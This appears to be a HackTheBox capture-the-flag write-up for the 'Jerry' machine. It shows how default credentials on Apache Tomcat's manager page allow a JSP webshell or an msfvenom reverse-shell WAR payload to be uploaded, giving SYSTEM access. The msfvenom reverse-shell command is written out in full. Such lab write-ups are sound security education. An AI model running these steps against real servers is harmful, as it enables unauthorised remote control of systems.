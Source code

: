 ```yaml
---
layout: single
title: HackTheBox - Jerry Writeup
permalink: /hackthebox-jerry-writeup/
excerpt: "Jerry is an easy box from HackTheBox. This machine explores the upload vulnerability in the manager section. Which the attacker can upload the WAR file payload and get the reverse shell as a system user. The credentials are really easy to own because it's using the default creds, also, the error page exposes it as well."
classes: wide
header:
  teaser: "/assets/images/htb/jerry/Jerry.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - upload-vuln
  - rce
  - msfvenom
  - jsp-webshell
  - war-file
  - apache-tomcat
---
```



![1](/assets/images/htb/jerry/Jerry.png)

### <font color="#9bffc8">Nmap</font>

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### <font color="#9bffc8">Http (Apache Tomcat)</font>
Let's take a look at port `8080` which serve as Http.


![1](/assets/images/htb/jerry/apache-default-install-page.png)

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![1](/assets/images/htb/jerry/error-page.png)

### <font color="#9bffc8">/manager/html</font>
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![1](/assets/images/htb/jerry/upload-the-war-file-page.png)

### <font color="#9bffc8">WebShell</font>
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![1](/assets/images/htb/jerry/convert-jsp-file-into-war-file.png)

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![1](/assets/images/htb/jerry/webshell-created-after-upload.png)

To spawn the shell, just click the `/web shell` path in the table. 


![1](/assets/images/htb/jerry/run-the-whoami-in-the-webshell.png)

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

### <font color="#9bffc8">MSFVenom</font>
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```


![1](/assets/images/htb/jerry/created-msfvenom-payload.png)

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![1](/assets/images/htb/jerry/nc-reverse-shell-callback.png)